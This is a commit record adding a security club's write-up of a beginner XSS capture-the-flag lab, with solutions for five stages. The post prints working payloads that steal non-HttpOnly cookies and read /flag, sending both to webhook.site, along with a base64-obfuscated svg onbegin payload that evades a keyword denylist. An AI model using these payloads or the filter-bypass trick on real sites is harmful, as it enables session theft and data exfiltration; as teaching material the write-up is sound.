

Before and after one commit to blairsec/writeups, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 92% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
add beginner xss (9/23) writeup

````diff
--- a/_layouts/post.html
+++ b/_layouts/post.html
@@ -88,5 +88,4 @@ footer: false
         {% endif %}
 
     </article>
-
 </main>
--- /dev/null
+++ b/_posts/2021-09-26-beginner-xss-recap.md
@@ -0,0 +1,159 @@
+---
+layout: post
+title:  "beginner xss recap"
+date:   2021-09-23
+categories: web
+---
+
+Last meeting (9/23), we went over some beginner XSS (Cross Site Scripting). These are the solutions to the multi-stage challenge that you had lab time to work on.
+
+You can reference the lecture [here](https://docs.google.com/presentation/d/17Gc2c_fv2uEVucDAzmRulf_lyIwglVO-V9X283Geip8/edit#slide=id.p).
+
+Note: the later stages of the challenges were much more than beginner-level, so don't worry if you couldn't get them!
+
+Overall, there were 5 stages:
+- [Admin cookie flag](#admin-cookie)
+- Read `/flag` with:
+    - [static note type](#static-note)
+    - [dynamic note type](#dynamic-note)
+    - [image note type](#image-note)
+    - [filtered note type](#filtered-note)
+
+
+The source of the challenge server is also available on [GitHub](https://github.com/blairsec/club-challs-2021/blob/master/xss/site/src/index.ts).
+
+For those who were confused of the overall flow of the challenge, the goal is to achieve XSS and submit a page with malicious code to the admin bot. The admin bot simulates a real person and "visits" the page, (hopefully) triggering your XSS which you can then leverage and turn into a flag. In the real world, the admin bot could be someone important such as someone with a valuable bank account.
+
+
+#### admin cookie
+We can use [webhook.site]([https://webhook.site/](https://webhook.site/)) to log our requests.
+
+To test that XSS indeed exists, let's make a static note that just sends a GET request to our webhook.site:
+{% raw %}
+```html
+<script>
+fetch("https://webhook.site/19052bc2-3e1a-4be9-8766-389277cc1802")
+</script>
+```
+{% endraw %}
+
+Let's try to steal the cookie of the admin. Using Javascript, we can access the cookies using `document.cookie`. Keep in mind this only works for non-HttpOnly cookies. Read more about HttpOnly cookies [here]([https://www.cookiepro.com/knowledge/httponly-cookie/](https://www.cookiepro.com/knowledge/httponly-cookie/)).
+- In short, HttpOnly cookies cannot be accessed by any script run by the browser, including anything malicious that we might put there
+
+{% raw %}
+```html
+<script>
+fetch("https://webhook.site/19052bc2-3e1a-4be9-8766-389277cc1802/?" + document.cookie)
+</script>
+```
+{% endraw %}
+
+This appends any of the admin's non-HttpOnly cookies to the url, plus the `?`. The `?` marks anything after that as a key-value pair of GET request parameters.
+
+`/?asdf=fdsa&zxcv=vcxz` would contain:
+- asdf: fdsa
+- zxcv: vcxz
+
+It also just happens that document.cookie is in `key=value` format.
+
+Submitting the site to the admin, we get a request to `https://webhook.site/19052bc2-3e1a-4be9-8766-389277cc1802?cookie_flag=flag%7Bcookie_monster_nom_nom%7D`.
+
+webhook.site automatically extracts the GET request parameters for us, and we can see the flag under the `Query strings` section.
+
+Flag: `flag{cookie_monster_nom_nom}`
+
+#### static note
+This time, we want to read `/flag` as the admin and then send the content of whatever we read to ourselves.
+
+Using [Mozilla docs](https://developer.mozilla.org/en-US/docs/Web/API/Response/text) for the fetch() api, we see we can use `fetch(url).then(resp => resp.text().then(text => {function}))` to read the contents of `url`. We can then send the content back to ourselves like how we stole the admin's cookies.
+{% raw %}
+```html
+<script>
+fetch("/flag").then(resp =>
+    resp.text().then(s =>
+        fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)
+    )
+)
+</script>
+```
+{% endraw %}
+
+Flag: `flag{starting_off_with_baby_steps}`
+
+#### dynamic note
+According to the provided source, the site is rendered with a JavaScript that fetches the user data and then uses `.innerHTML` to populate the user data field, instead of templating it directly. This means that using `<script>` tags won't work because the scripts won't run.
+
+However, we can easily bypass this by using the [`onerror`](https://www.w3schools.com/jsref/event_onerror.asp) property of a dummy image.
+
+In short, the `onerror` property runs the JavaScript assigned to it whenever the image or other structure fails to load. We can make an image with `src="x"` to guarantee that the image load fails, meaning our JavaScript will always run.
+
+Then, we just do the same thing we did last time for the static note, albeit slightly minimized to fit in one line.
+```html
+<img src="x" onerror='fetch("/flag").then(resp => resp.text().then(s => fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)))' />
+```
+
+Flag: `flag{leeking_deets_like_a_boss}`
+
+#### image note
+
+According to the source, when we create an image note our payload is inserted into the form `<img src="${note.content}"`.
+
+This is really easy to escape. You only need to put a double quote to complete the `src="` and then you can define your own `onerror` handler.
+
+I used ~\`~ (backtick) for my strings because JavaScript is cool like that. You could probably find a way to escape the strings using `\`.
+
+```
+x" onerror='fetch(`/flag`).then(resp => resp.text().then(s => fetch(`https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=` + s)))' style="
+```
+
+Flag: `flag{the_great_property_escape}`
+
+#### filtered note
+The filter consists of the following banned keywords:
+```javascript
+["script",
+"img",
+"onerror",
+"iframe",
+"fetch",
+"window",
+"eval",
+"function",
+"then",
+"{",
+"}",
+"xmlhttprequest",
+"navigator",
+"location",
+"self",
+]
+```
+
+You could think of a very creative and inspiring solution to get around this denylist. Or you could use an [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).
+
+I used `<svg><animate onbegin='<payload>' attributeName=x dur=1s>` to achieve XSS.
+
+The process of breaking out of JavaScript jails is typically just a get-it-or-you-don't kind of situation. With so many important keywords banned, it is generally a good idea to find a way to hide the payload used to send yourself the flag with some sort of encoding so the filter cannot detect it. Then, you can decode it and evaluate it. But wait, `eval` is banned too.
+
+It turns out that JavaScript is the best language in the world and you can create a function out of a string. For example, `([]).constructor.constructor('alert(1)')()` constructs a function that does `alert(1)` and runs it. This is super powerful because we can now encode our flag payload and hide it into this function.
+
+Taking our payload from our [dynamic note](#dynamic-note) solution, we can base64 encode it to get it past the filter. Then, we can use `atob()` to convert it back when JavaScript evaluates.
+
+```javascript
+// ZmV0Y2goIi9mbGFnIikudGhlbihyZXNwID0+IHJlc3AudGV4dCgpLnRoZW4ocyA9PiBmZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvOGQ2ZmIzODYtMzI4YS00MGU3LWJlMmItZjEyNDcyOTI2N2RlLz9mbGFnPSIgKyBzKSkp
+// is the base64 encoded version of:
+fetch("/flag").then(resp => resp.text().then(s => fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)))
+```
+
+Putting it all together, our final payload is:
+{% raw %}
+```html
+<svg><animate onbegin='([]).constructor.constructor(atob("ZmV0Y2goIi9mbGFnIikudGhlbihyZXNwID0+IHJlc3AudGV4dCgpLnRoZW4ocyA9PiBmZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvOGQ2ZmIzODYtMzI4YS00MGU3LWJlMmItZjEyNDcyOTI2N2RlLz9mbGFnPSIgKyBzKSkp"))()' attributeName=x dur=1s>
+```
+{% endraw %}
+
+
+
+See you at our next meeting, 9/30! We'll also go over the challenge then, although perhaps not in so much detail.
+
+~ josh
````
Also changed, not shown: _posts/2021-09-23-blairsec-first-post.md (renamed from _posts/2021-09-25-blairsec-first-post.md).
